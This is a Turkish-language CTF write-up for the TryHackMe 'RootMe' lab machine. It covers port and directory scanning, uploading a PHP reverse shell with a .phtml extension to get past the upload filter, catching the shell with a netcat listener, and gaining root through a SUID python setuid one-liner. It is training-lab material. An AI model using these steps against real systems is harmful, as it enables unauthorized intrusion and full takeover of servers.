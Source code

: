 # RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

`nmap -sC -sV <İP> -Pn`

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 03:14 EDT
Nmap scan report for 10.10.214.100
Host is up (0.62s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


`gobuster dir -u http://10.10.214.100 -w /usr/share/dirb/wordlists/common.txt`

```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```



##### Bize Verilen çıktıyı inceliyoruz:
--------
Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
```
/css dizininde home dizini ve /panel dizinin css kodları var.
/js dizininde bir js kodu var.
/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.
/uploads dizini yüklenen dosyaların bulunduğu dizin
```
##### Php reverse shell indirmek ve düzenlemek:
----
~Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) indirebilirsiniz.
```
Php reverse shelli açıp tun0 ipimizi ve dinleyeceğimiz portu yazıyoruz.
```
##### php reverse shelli /panel adresine yüklemek:
--------
```
Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`
```
##### Shelli almaya calışıyoruz:
-----
```
/uploads dizinine yuklenen dosyaların gittigini biliyorduk.
Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.
nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.
/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz
Ve Bağlantı Geliyor
```
##### User flagı buluyoruz:
------
`Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:`

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltmek:
---
```
find / -user root -perm /4000 2>/dev/null
```
`komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.`
`/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.`

[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:
```
-c 'import os; os.setuid(0); os.system("/bin/sh")'
```
`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

id yazarak root olduğumuzu görüyoruz:
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







